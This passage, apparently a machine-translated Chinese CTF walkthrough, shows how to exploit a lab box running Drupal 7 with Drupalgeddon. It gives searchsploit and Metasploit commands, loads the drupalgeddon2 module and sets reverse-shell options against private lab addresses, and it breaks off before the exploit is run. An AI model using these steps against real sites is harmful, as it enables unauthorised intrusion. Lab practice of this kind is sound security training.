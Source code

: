 (在看到包含 robots.txt 文件解释的 blob 后，我被逗乐了)

注意:通常在**config.php**文件中有凭证，所以如果它存在，我们将立即获得凭证。

但由于这个盒子运行在 Drupal v7 软件上，让我们搜索它的漏洞(研究)，经过研究我发现漏洞名称是 **Drupalgeddon** ，所以让我们寻找这个漏洞，

```
searchsploit drupalgeddon
```

![](img/8ad568e8ef85fc92b399f6419ede165f.png)

我们有一个 metasploit 模块。让我们使用它。

运行`msfconsole -q`运行 metasploit-framework 并搜索 drupalgeddon 模块，

```
search drupalgeddon
```

![](img/22dd1c5fa52229f3f5bceb6a817adcee.png)

我们将使用这个模块。快跑，

我们将加载这个模块，

```
use exploit/unix/webapp/drupal_drupalgeddon2
```

然后设置选项，

*   **设定 rhosts 10.0.2.74**
*   **设置 lhost 10.0.2.15**
*   **设置 lport 4444**
*   **设置 r 端口 80**
*   **设置 targeturi /jabc/**

让我们交叉检查一下我们是否把所有事情都做对了，`options`
